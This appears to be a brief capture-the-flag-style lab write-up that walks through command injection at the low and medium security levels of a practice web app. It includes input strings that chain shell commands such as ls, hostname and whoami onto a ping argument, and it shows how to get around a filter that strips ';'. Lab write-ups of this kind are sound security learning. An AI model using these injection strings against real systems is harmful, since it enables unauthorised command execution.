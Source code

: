 # 1. Command Injection -> Low Security Level

```
For More information ->
```
![alt text](images/1.png)

## I wanna check with ;ls
```bash
┌──(robert㉿kali)-[~]
└─$ ping 127.0.0.2; ls       
PING 127.0.0.2 (127.0.0.2) 56(84) bytes of data.
64 bytes from 127.0.0.2: icmp_seq=1 ttl=64 time=0.170 ms
64 bytes from 127.0.0.2: icmp_seq=2 ttl=64 time=0.068 ms
64 bytes from 127.0.0.2: icmp_seq=3 ttl=64 time=0.079 ms
64 bytes from 127.0.0.2: icmp_seq=4 ttl=64 time=0.075 ms
64 bytes from 127.0.0.2: icmp_seq=5 ttl=64 time=0.069 ms
64 bytes from 127.0.0.2: icmp_seq=6 ttl=64 time=0.062 ms
^C
--- 127.0.0.2 ping statistics ---
6 packets transmitted, 6 received, 0% packet loss, time 5105ms
rtt min/avg/max/mdev = 0.062/0.087/0.170/0.037 ms
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
```
Here we go
![alt text](images/2.png)

So this was the low level 
![alt text](images/3.png)

# 2. Brute Force -> Medium Security Level
``` bash
With ;ls don't get any output so has to change the flow
Can see that ";" "&" will be replaced with " "
```
Source Code for medium lvl 
![alt text](images/4.png)
``` bash
Solution -> ping 127.0.0.2 &ls
```
![alt text](images/5.png)
![alt text](images/6.png)

``` bash
ping 127.0.0.2 & ls & hostname & whoami -> useful command
```
![alt text](images/7.png)